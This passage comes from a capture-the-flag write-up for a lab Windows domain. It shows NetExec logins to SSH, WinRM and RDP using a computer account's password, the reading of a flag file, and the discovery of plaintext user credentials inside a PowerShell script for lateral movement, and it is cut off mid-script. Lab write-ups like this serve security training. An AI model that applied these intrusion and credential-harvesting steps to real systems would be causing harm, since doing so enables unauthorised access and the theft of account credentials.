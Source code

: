 With this done, we can now authenticate to the `SSH` service on `sql01.antennae.rv` using the `gatari$` computer account:

```
~$ nxc ssh sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'  
SSH         10.5.10.11      22     sql01.antennae.rv [*] SSH-2.0-OpenSSH_for_Windows_9.8 Win32-OpenSSH-GitHub
SSH         10.5.10.11      22     sql01.antennae.rv [+] gatari$:P@ssw0rd  Windows - Shell access!
```

Do note that `WinRM` or `RDP` could have also been used instead of `SSH`:

```
~$ nxc winrm sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
WINRM       10.5.10.11      5985   SQL01            [*] Windows Server 2022 Build 20348 (name:SQL01) (domain:antennae.rv) 
WINRM       10.5.10.11      5985   SQL01            [+] antennae.rv\gatari$:P@ssw0rd (Pwn3d!)

~$ nxc rdp sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'  
RDP         10.5.10.11      3389   SQL01            [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL01) (domain:antennae.rv) (nla:True)
RDP         10.5.10.11      3389   SQL01            [+] antennae.rv\gatari$:P@ssw0rd 
```

We can now connect to the `sql01.antennae.rv` machine and read the `flag2.txt` file:

```
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@sql01.antennae.rv

PS C:\> cat flag2.txt
RV{d@ngER0US_4cc3$S_C0n7Rol_1!sts!_6daa59eff6fd00657e9fb802c0078a4c}
```

# Flag 3: Moving Laterally

![](./assets/img/rv-sept/3.png)

After obtaining local access to `sql01.antennae.rv`, we can begin enumerating the machine for any interesting files or credentials. After some searching (or running `tree /f /a`), we'll find a file at `C:\Users\Public\test.ps1` that contains credentials for `wei.jie.tan`:

```
PS C:\Users> cat C:\Users\Public\test.ps1
$username = 'wei.jie.tan'
$password = 'klDCzcAiLGc2'
$securePass = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential($username, $securePass)
$scriptBlock = {
    $targetFile = 'C:\temp.txt'
    $timestamp  = (Get-Date).ToString('yyyy-MM-dd HH:mm:ss')
    "test => $timestamp" |
        Out-File -FilePath $targetFile -Encoding UTF8 -Append
}

Start-Process -FilePath pwsh -ArgumentList '-NoProfile','-Command',(
```